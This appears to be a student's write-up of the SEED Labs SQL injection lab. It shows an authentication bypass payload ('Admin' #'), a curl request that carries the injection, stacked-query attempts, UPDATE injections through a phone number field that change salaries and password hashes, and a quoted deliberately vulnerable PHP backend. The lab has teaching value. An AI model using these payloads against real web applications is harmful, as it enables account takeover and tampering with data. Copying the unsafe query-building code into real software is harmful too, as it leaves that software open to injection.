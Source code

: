 # SQL-Injection-Lab-Attack

SQL-INJECTION

Title	Author	Date

Seed Lab SQL Injection Attack	Warda Salamat	28-10-2021

Task 1

Login MYSQL:

mysql -u root -pseedubuntu

mysql> use Users;

mysql> show tables;

Use Such a SQL Query:

select * from credential where Name = 'Alice';

Task 2

Task 2.1

•	USERNAME: "Admin' #"

•	PASSWORD: "***" whatever the password was

It will result in a SQL Query as:

SELECT id, name, eid, salary, birth, ssn, address, email,

nickname, Password

FROM credential

WHERE name= 'Admin' #' and Password='***'

Then statement after # will bi regarded as comments. So we can login in as Admin.
 
Task 2.2

curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'

It will return a bunch of htmlcode. When exporting outputs to file by > temp.htmland open it

Task 2.3

We neeed to delete such a statement to append a row to current database:

DELETE credential where name='ted';

So constructed:

•	USERNAME: " '1=1; DELETE credential where name='ted';#"

•	PASSWORD: " " (Remain Blank)

It fails and alerts with a syntax error:

Because in PHP's mysqli extension, which invokes mysqli::query API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.


Task 3

It's hard to find the navigation buttons on this website

(www.SeedLabSQLInjection.com).

In order to edit the profile, please log in and then jump to the link address:

http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php by Hand.


Task 3.1

Log in with Alice's username and password, enter

http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php

Modify Phone Number as ', Salary=500000 and save 

Task 3.2

Log in with username Boby' # and arbitrary password, open his profile edit page.

Fill in with:

Phone Number: ', Salary=1

And keep other properties unchanged. Submit the modification.

Now, you can see:

Screen shoot is in SQL Injection Folder

Log-in as Alice

Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.

We should change the Phone Number as

', Salary=1 where name='Boby' #
 
Task 3.3

Of course, the simplest approach is to log-in as Boby like Task 3.2 and change the password.

If we must do all things and keep log-in with Alice's own account. We might face such an issue:

According to code below in unsafe_edit_backend.php, if Password is to be updated, the session's pwd will be updated first, which makes our user authentication invalid immediately and the modification dropped. So we cannot modify the password field directly using Alice's authentication.

$conn = getDB();

// Don't do this, this is not safe against SQL injection attack

$sql="";

if($input_pwd!=''){

// In case password field is not empty.

$hashed_ = sha1($input_pwd);

//Update the password stored in the session.

$_SESSION['pwd']=$hashed_pwd;

$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where 
ID=$id;";

}else{

// if passowrd field is empty.

$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";

}

$conn->query($sql);

$conn->close();

header("Location: unsafe_home.php");

exit();

We should do all things in Phone Number field.

Assume we want to change Boby's password as tedwashere. First, we should get SHA1 value of our new password via some online tool as

1b3263246794fe4094be7ae99e21b34454d9676f

Then construct Phone Number as:

', password='1b3263246794fe4094be7ae99e21b34454d9676f' where name='Boby' #

and save. Now, the change works. You can log in with username Boby and password tedwashere.
